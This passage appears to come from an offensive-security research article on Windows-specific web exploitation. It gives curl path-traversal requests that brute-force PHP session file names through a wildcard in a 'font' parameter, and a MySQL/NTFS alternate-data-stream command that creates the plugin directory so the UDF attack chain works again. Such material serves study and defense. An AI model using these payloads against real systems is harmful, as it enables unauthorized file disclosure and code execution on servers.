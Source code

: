 ```text
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_B<"      # [--]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_C<"      # [OK]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_CA<"     # [--]
$ curl "${URL}&font=../../../../../../../../xampp/tmp/sess_CB<"     # [OK]

  [...]

$ curl "${URL}&font=[...]/tmp/sess_CBHRVOFTMP41BIOV02VPSGSUP7"      # [OK]
```
<PRE>

Also, Alternate Data Streams (ADS) on NTFS is another feature hackers love
to abuse. A classic trick is using a special stream to turn "arbitrary
file writes" into "arbitrary directory creation" [45].  One particularly
memorable combo is leveraging this trick to create the missing
`@@plugin_dir` directory, thereby reviving the MySQL UDF attack chain!

---------------------[ Revive the MySQL UDF Attack!
</PRE>
```console
C:\Users\Orange> ver
  Microsoft Windows [Version 10.0.19042.631]

C:\MySQL\lib> dir plugin
  File Not Found

C:\MySQL\lib> mysql -uroot -e
  mysql> SELECT 1 INTO OUTFILE 'C:\\MySQL\\lib\\plugin::$INDEX_ALLOCATION'
  ERROR 3 (HY000): Error writing file [...]  (Errcode: 22)

C:\MySQL\lib> dir plugin
  04/21/2025  06:21 PM    <DIR>          .
  04/21/2025  06:21 PM    <DIR>          ..
```
<PRE>

Given that most of these quirky behaviors come from Microsoft's attempts
to maintain backward compatibility, websites running on Windows
essentially start in hard mode. Even WorstFit Attack [46] that @splitline
and I published last year stemmed from the technical debt that Windows has
carried for over twenty years - all just to support legacy ANSI encoding -
but we'll dive deeper into that later!

</PRE>
#### ------[  3.2 - Let's Make Windows Defender Angry!
<PRE>

Although we've talked plenty about Windows' weird behaviors, I guess if
you choose Microsoft, you'll just have to live with it. However, what's
even more surprising is that sometimes even Windows' built-in antivirus
can sneak up and hit you with a sucker punch! And that's exactly what
happened with AVOracle - an ingenious new technique from @icchy that can
turn literally any scan result into a side-channel oracle!
